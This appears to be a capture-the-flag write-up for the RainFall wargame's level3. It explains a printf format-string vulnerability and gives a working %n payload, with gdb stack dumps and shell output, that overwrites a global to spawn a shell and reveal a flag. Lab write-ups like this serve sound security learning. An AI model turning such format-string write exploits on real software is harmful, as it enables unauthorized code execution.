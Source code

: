 ## Flag3 README: Finding Flag3

After connection on our vm with:
```bash
ssh level3@localhost -p 4242
```
We finded a binary program called level3.
if we decompile it we got this
```C
int v()
{
  int result; // eax
  char s[520]; // [esp+10h] [ebp-208h] BYREF

  fgets(s, 512, stdin);
  printf(s);
  result = m;
  if ( m == 64 )
  {
    fwrite("Wait what?!\n", 1u, 0xCu, stdout);
    return system("/bin/sh");
  }
  return result;
}
```
so we clearly understand that we need to change m to be equal to 64.
firstly we need to decompile it and search for m variable.
   0x080484da <+54>:	mov    eax,ds:0x804988c
   0x080484df <+59>:	cmp    eax,0x40
so we see that the decompilation didn't work
and it s more something like this
```C
result = RandomVariable
if randomvariable == 64 then we continue
```

And there is an known exploit with printf when you make in only print a variable like this :
```C
printf(foo)
```
to be safe he need to be like this :
```C
printf("%s", foo)
```

So let's exploit this.

The idea of the exploit is to print and mofify adress by adding sone %x and %n.
firstly we need to know when you are writing to the stack and at what adress.
So for exemple if if print  AAAA.%x.%x.%x.%x. this is the result :
AAAA.%x.%x.%x.%x.
AAAA.200.b7fd1ac0.b7ff37d0.41414120.
So lets decompile the stack after puting some AAAA inside it.

200 b7fd1ac0 b7ff37d0 is our sequence that are before in the stack. Let's verify it :
(gdb) x/32x $esp
0xbffff510:	0xbffff520	0x00000200	0xb7fd1ac0	0xb7ff37d0
0xbffff520:	0x41414141	0x2e78252e	0x252e7825	0x78252e78
0xbffff530:	0xbf000a2e	0xb7fde2d4	0xb7fde334	0x00000007
0xbffff540:	0x00000000	0xb7fde000	0xb7fff53c	0xbffff588
0xbffff550:	0x00000040	0x00000b80	0x00000000	0xb7fde714
0xbffff560:	0x00000098	0x0000000b	0x00000000	0x00000000
0xbffff570:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffff580:	0x00000000	0xb7fe765d	0xb7e3ebaf	0x080482bb

So we can see that our sequence is locating in here :
0xbffff510:	0xbffff520	0x00000200	0xb7fd1ac0	0xb7ff37d0


0xbffff520:	0x41414141 this is our 4 A

Then we will have to put the target adress (0x804988c) at the begining in the payload by replacing the AAAA it will be write in the stack at the positions 5 let's check it:

python -c 'print("\x8c\x98\x04\x08" + "%20x"*3 + "%n")'
<<< $(python -c 'print("\x8c\x98\x04\x08" + ".%x."*4)')
�.200..b7fd1ac0..b7ff37d0..804988c.

yep we can see that the last is our value puted in the front.

so now lets work with %n that will be writing the length of the string up to that point.

so what we need is to put a lot of charactere before it.And we know that the value we need to search is 64.

and by trying and each time printing the value we realize that was the payload to do :

level3@RainFall:~$ python -c 'print("\x8c\x98\x04\x08" + " %x. " * 2 + "%43x" + "%n")' > test3
level3@RainFall:~$ cat test3 - | ./level3
� 200.  b7fd1ac0.                                    b7ff37d0
Wait what?!
whoami
level4


b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa